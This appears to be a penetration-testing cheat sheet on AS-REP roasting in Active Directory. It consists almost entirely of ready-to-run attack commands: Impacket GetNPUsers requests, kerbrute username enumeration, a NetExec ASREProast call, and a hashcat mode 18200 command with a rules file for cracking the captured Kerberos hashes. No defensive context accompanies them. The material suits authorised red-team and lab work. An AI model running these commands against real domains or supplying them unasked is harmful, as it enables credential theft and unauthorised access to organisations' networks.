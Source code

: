 ### Impacket

```shell
GetNPUsers.py -dc-ip $TARGET  -request -outputfile hashes.asreproast $DOMAIN/$PWNED_USER
```

#### Without Authentification

```shell
kerbrute userenum -d $DOMAIN --dc $TARGET users.txt
```

```shell
GetNPUsers $DOMAIN/ -dc-ip $TARGET -usersfile users.txt
```

### NetExec

```shell
nxc ldap $TARGET -u $USERNAME -p $PASSWORD --asreproast hashes.asreproast              
```

### Crack it

```shell
hashcat -m 18200 hashes.asreproast `fzf-wordlists` -r /usr/share/hashcat/rules/best64.rule --force
```

